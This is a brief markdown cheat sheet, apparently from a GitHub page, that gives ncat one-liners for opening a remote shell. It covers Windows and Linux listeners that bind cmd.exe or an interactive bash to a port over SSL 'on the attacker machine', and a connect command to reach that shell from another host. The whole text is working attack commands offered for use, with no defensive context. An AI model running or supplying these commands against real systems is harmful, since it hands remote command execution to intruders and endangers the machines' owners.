 ## Setup a Netcat listener on the attacker machine

Win: `ncat -lvp port -e cmd.exe --allow ip --ssl` 
Linux: `ncat -lvp port -e '/bin/bash -i' --allow ip --ssl`

where `port` is any port number, and `ip` is the other machine IP.

## To obtain a reverse shell on the other machine

`ncat -v ip2 port --ssl`

where `port` is any port number, and `ip2` is the other machine IP.

